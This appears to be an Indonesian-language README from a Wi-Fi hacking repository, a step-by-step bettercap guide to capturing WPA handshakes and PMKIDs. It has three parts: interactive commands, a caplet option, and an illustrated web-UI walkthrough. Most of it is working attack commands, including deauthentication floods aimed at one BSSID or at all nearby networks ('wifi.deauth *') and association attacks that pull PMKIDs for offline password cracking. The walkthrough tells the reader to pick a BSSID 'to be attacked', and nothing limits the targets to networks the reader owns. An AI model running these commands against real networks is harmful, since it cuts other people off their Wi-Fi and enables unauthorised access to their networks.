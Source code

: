 ## 1. Mode Interaktif

```
bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

## Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

## 2. Opsi Caplet

```
bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada disini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

## 3. Mode WEB UI

```
bettercap -eval "ui on"
```

1. Arahkan kursor ke link yang ada di bagian web ui starting on, yaitu `http://127.0.0.1:80`, terus klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang ingin dipake dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Lakukan scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, antara lain:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan dBm.
   - `ESSID`: Nama jaringan Wi-Fi.
   - `BSSID`: Alamat MAC unik dari Access Point.
   - `Vendor`: Produsen perangkat Access Point berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang digunakan oleh jaringan Wi-Fi.
   - `Ch`: Kanal (channel) yang digunakan oleh Access Point.
   - `Clients`: Jumlah perangkat klien yang saat ini terhubung ke AP tersebut.
   - `Sent`: Jumlah paket data yang dikirim dari perangkat ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh perangkat.
   - `Seent`: Menunjukkan jumlah paket yang terdeteksi (seen) dari klien atau AP yang dipantau.
8. Di sini, kita harus memilih BSSID target yang ingin diserang, lalu klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, kita dapat melakukan dua jenis serangan, antara lain:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Untuk Capture Handshake, klik `Deauthenticate Client`. Untuk Capture PMKID, klik `Associate`. Dalam panduan ini, kita akan memilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Memerlukan setidaknya 1 klien yang aktif.
   > - Capture PMKID: Tidak semua router mendukung PMKID.
10. Setelah klik `Deauthenticate Client`, tunggu sampe handshake berhasil capture. Handshake dianggap berhasil capture kalo muncul ikon `kunci merah` pada bagian `Encryption` dan notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari ketiga item di bagian pesan:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar di bawah ini terlihat bahwa file handshake disimpan di: `/root/bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
